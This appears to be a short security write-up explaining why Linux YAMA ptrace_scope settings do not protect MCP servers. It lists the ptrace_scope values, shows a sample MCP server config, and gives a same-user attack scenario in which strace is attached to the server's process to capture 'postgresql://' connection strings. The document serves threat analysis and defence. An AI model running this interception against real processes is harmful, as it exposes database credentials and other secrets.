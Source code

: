 # YAMA ptrace_scope and MCP: Why Modern Security Controls Don't Help

## Linux Security Module (YAMA) Complications

### Ubuntu/Modern Linux Restrictions

> "Later Ubuntu versions ship with a Linux kernel configured to prevent ptrace attaches from processes other than the traced process' parent; this allows gdb and strace to continue to work when running a target process, but prevents them from attaching to an unrelated running process."

Control via `/proc/sys/kernel/yama/ptrace_scope`:

```bash
# Check current setting
cat /proc/sys/kernel/yama/ptrace_scope

# 0 = Classic ptrace permissions (permissive)
# 1 = Parent-child only (default on Ubuntu)
# 2 = Admin-only attach
# 3 = No attach at all
```

### Bypassing YAMA (May Require Root)

> "While some applications use prctl() to specifically disallow PTRACE_ATTACH (e.g. ssh-agent), a more general solution implemented in Yama is to only allow ptrace directly from a parent to a child process (i.e. direct gdb and strace still work), or as the root user."

## MCP-Specific Attack Scenarios

### Scenario 1: Same-User Attack (No Root Required)

**Common MCP Setup**:
```json
{
  "mcpServers": {
    "database": {
      "command": "python",
      "args": ["db-server.py"]
    }
  }
}
```

**Attack without root**:
```bash
# Find the MCP server process (running as same user)
ps aux | grep db-server.py

# Attach and intercept (no root needed)
strace -p <PID> -e trace=read,write -s 1024 2>&1 | grep -E "postgresql://"
```
